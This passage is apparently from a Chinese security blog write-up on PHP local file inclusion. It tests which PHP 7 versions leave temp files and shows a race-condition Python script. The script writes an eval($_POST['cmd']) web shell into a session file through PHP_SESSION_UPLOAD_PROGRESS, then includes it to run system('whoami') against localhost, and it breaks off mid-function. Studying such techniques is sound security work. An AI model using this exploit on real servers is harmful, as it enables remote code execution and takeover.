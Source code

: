 <img src='https://0xfay.github.io/public/image/110255.png'>

成功执行。另外，有搜到这个方法只适用于如下版本

• php7.0.0-7.1.2可以利用， 7.1.2x版本的已被修复

• php7.1.3-7.2.1可以利用， 7.2.1x版本的已被修复

• php7.2.2-7.2.8可以利用， 7.2.9一直到7.3到现在的版本已被修复

我的wamp只有7.0.33这个版本可行...所以没测试其他版本了。

参考自:https://www.wandouip.com/t5i401817/

>P.S. php7崩溃导致留下php临时文件的方式没有复现成功，会有报错，但并没有文件留下。不过在session + lfi的复现过程中却又php临时文件留下

<img src='https://0xfay.github.io/public/image/195250.png'>

>在条件竞争不断发包的过程中能看到不断有临时文件生成和删除，不过结束脚本后却有不少临时文件留下。且文件名并不是php+随机四位数字加字母.tmp，运行的时候会很明显的发现，它的顺序应该是php1开始，然后php2，php3...php10,phpa,phpb...phpffff，4位按照16进制进行排序(似乎会从上次结束的地方开始)，当满了过后又重新从1开始，因为是运行完就删除的，所以并不存在会不够的情况。

<img src='https://0xfay.github.io/public/image/202317.png'>

>稍微修改了一下代码，发现的确可以写入，且随着脚本运行时间越长，留下的文件会越多。

<img src='https://0xfay.github.io/public/image/210558.png'>

>做了很多尝试,不知道为啥，只有那个脚本的写法能留下临时文件，暂时不知道为什么，猜测是某个地方导致了php崩溃导致留下了文件，但不知道是哪儿...下面是我尝试过的一些方式

>普通用while true的post上传文件---->并不会留下临时文件

>上传的同时也向session文件写入代码----->并不会留下临时文件

>普通post上传并开另一个线程不断去访问前面上传的点(我在baohan.php提交的表单，访问也访问的baohan.php)---->并不会留下临时文件

>普通post上传并开一个线程用baohan.php去包含一个存在/不存在的文件---->并不会留下临时文件

>上传同时向session文件写入代码并包含一个存在/不存在的文件/已存在的session文件---->并不会留下临时文件

>最后发现好像是因为第二次包含的时候post过去的数据和第一次向session文件写入的eval($_POST[])产生了交互..?并不是一定会触发，因为命令被执行的次数和生成的未删除临时文件数目完全不相等，但无论是去掉写入session文件的eval还是去掉第二次包含post过去的代码都不会产生未删除的临时文件

>直接用那个脚本改了下，因为名字很短且很有特点，可以直接跑那个脚本，跑出临时文件，然后从1到ffff去爆破，爆破出一个就成了

```
#coding=utf-8
import io
import requests
import threading
import time

sessid = 'shEll'
data = {"cmd":"system('whoami');"}

def write(session):
    i=0
    while i<500:
        i=i+1
        f = io.BytesIO(b'a' * 1024 * 50+b'<?php phpinfo();?>')
        resp = session.post( 'http://127.0.0.1/baohan.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('1.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    i=0
    while i<500:
        i=i+1
        resp = session.post('http://127.0.0.1/baohan.php?file=g:/wamp64/tmp/sess_'+sessid,data=data)

def getshell(num):
    time.sleep(30)
```
